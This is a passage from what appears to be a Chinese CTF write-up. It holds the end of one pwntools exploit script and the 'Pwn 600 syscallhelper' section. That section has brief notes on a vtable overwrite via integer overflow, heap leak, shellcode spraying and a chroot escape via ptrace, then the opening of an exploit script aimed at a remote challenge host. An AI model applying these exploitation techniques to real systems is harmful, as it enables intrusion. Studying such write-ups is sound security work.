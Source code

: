 ```
        it = iteration_numbers(it)
        random_value = prng_state[it]
        writeByte(random_value, ropchain[i])
    quit()
    io.interactive()
    return
if __name__ == '__main__':
    pwn()
```

**Pwn 600 – syscallhelper**

1. Add sycall整数溢出可以改虚表。泄露堆地址，然后跳转到shellcode，由于本地远程堆布局不同，可以喷一些shellcode然后再跳。

2. 逃脱chroot，可以采用ptrace父进程的方法。

脚本：



```
#!/usr/bin/env python2
# -*- coding:utf-8 -*-
from pwn import *
from ctypes import *
from hexdump import hexdump
import os, sys
# switches
LOCAL = 0
DEBUG = LOCAL
VERBOSE = 0
# modify this
if LOCAL:
    io = process('syscallhelper')
else:
    io = remote('218.2.197.234',2088)
if VERBOSE: context(log_level='debug')
# define symbols and offsets here
# simplified r/s function
def ru(delim):
    return io.recvuntil(delim)
def rn(count):
    return io.recvn(count)
def ra(count):      # recv all
    buf = ''
    while count:
        tmp = io.recvn(count)
        buf += tmp
        count -= len(tmp)
    return buf
def sl(data):
    return io.sendline(data)
def sn(data):
    return io.send(data)
def info(string):
    return log.info(string)
def dehex(s):
    return s.replace(' ','').decode('hex')
def limu8(x):
    return c_uint8(x).value
def limu16(x):
    return c_uint16(x).value
def limu32(x):
    return c_uint32(x).value
# define interactive functions here
def menu():
```